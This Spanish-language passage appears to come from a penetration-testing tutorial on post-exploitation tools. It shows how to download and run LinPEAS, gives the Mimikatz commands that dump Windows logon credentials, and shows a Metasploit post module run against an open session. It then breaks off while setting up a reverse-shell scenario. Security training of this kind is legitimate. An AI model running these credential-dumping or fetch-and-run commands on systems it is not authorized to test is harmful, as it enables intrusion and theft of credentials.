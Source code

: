 
### 📥 ¿Cómo se instalan?

---

#### ✅ LinPEAS

Descarga desde GitHub:

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

---

#### ✅ Mimikatz (en Windows)

Descarga desde:

```
https://github.com/gentilkiwi/mimikatz
```

Ejemplo de uso (en consola de Windows):

```bash
privilege::debug
log
sekurlsa::logonpasswords
```

---

#### ✅ Metasploit Post Exploitation (ya integrado)

En `msfconsole`:

```bash
use post/linux/gather/enum_network
set SESSION 1
run
```

---

### ✅ Ejemplo completo de post-explotación con Metasploit

---

#### 🎯 Escenario:

- Ya has explotado una máquina Linux con **Metasploit**.
- Tienes una **shell reversa** abierta.
- Quieres hacer post-explotación.

---
